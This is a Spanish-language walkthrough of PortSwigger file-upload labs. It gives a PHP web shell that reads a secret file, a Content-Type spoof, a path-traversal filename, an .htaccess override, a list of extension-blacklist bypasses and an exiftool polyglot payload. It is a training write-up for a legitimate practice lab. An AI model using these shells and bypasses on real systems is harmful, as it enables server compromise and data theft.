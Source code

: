 ```yaml
---
title: File Upload | PortSwigger
---
```

Labs de File upload de PowerSwigger hechos y explicado

#### Lab: Remote code execution via web shell upload

``` php
// metemos el siguiente codigo dentro de un archivo .php
<?php echo file_get_contents('/home/carlos/secret'); ?>
// Lo subimos, y luego accedemos a el mediante /files/avatars/shell.php
```
--------
#### Laboratorio: Ejecución remota de código mediante carga de shell web

```
// La pagina bloquea todo archivo que no sea del tipo image/jpeg, por lo que subimos el archivo .php, interceptamos la petición con burpsuite y cambiamos 
Content-Type: application/x-php 
// por
Content-Type: image/jpeg
```
----------
#### Laboratorio: Carga de shell web mediante elusión de la restricción Content-Type

```
// Podemos subir el archivo, pero no nos interpreta el comando, sino que nos lo devuelve por pantalla. Por lo tanto, vamos a subir el file aplicando un path traversal obfuscado: cambiamos el campo filename="shell.php" por filename="..%2fshell.php" y ya podemos acceder al archivo en /files/shell.php
```
-----------------
#### Laboratorio: Carga de Web Shell mediante path traversal

```
// Como podemos observar, no se pueden subir achivos .php, asi que vamos a modificar la configuración interna del servidor para que acepte dicho archivo en formato .shell. Como sabemos que estamos ante un Apache (ya que al subir una imagen por ejemplo, el response de la request nos lo indica), vamos a modificar su configuración para que acepte archivos.shell (php) Para ello, interceptamos la petición y realizamos los siguientes cambios:
// - cambiamos el filename por filename=".htaccess" --> Para modificar los tipos de archivos que acepta el directorio de la maquina /files/avatars. De esta manera, podemos subir .php
// -cambiamos el por "Content-Type text/plain" --> Es necesario para poder subir archivos .htaccess
// -modificamos el Payload del .php por "AddType application/x-httpd-php .shell" --> Los archivos .shell que le subamos serán interpretados como .php

// Una vez hemos realizado los siguientes cambios, volvemos a la request original y subimos el archivo shell.shell (que originalmente se llamaba shell.php) y si accedemos a /files/avatars/shell.shell ya podemos ver la contraseña para solucionar el lab.
```
------------
#### Laboratorio: Carga de shell web mediante elusión de la lista negra de extensiones

``` php
# Intentamos obfuscar el archivo .php como PNG usando el null byte: shell.php%00.png y ya podemos acceder a él.
# Otras maneras de obfuscar: 
- Añadir la extensión white-listeada: exploit.php.jpg
- Añadir punto final al archivo: exploit.php.
- URL-Encodear el punto: exploit%2Ephp
- Añadir ; al final: exploit.php;.png
- Null byte: exploit.php%00.png
- Usar otras alternativas al URL-encoder del punto: xC0 x2E, xC4 xAE, xC0, xAE
- Strip bypass -> si al subir el archivo .php nos borra la extensión php, podemos probar lo siguiente: exploit.p.phphp -> se borra .php -> queda: exploit.php
```
-----------
#### Laboratorio: Ejecución remota de código mediante carga de shell web políglota

``` php
# Vemos que solo podemos subir archivos de tipo imagen, que en sus metadatos contienen código que indiquen que es un .png
# Por lo tanto, vamos a usar ExifTool para camuflar código dentro de una imagen:
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <nuestro-archivo>.png -o polyglot.php
# Una vez lo tenemos, subimos la imagen y accedemos a su directorio desde la pagina web.
```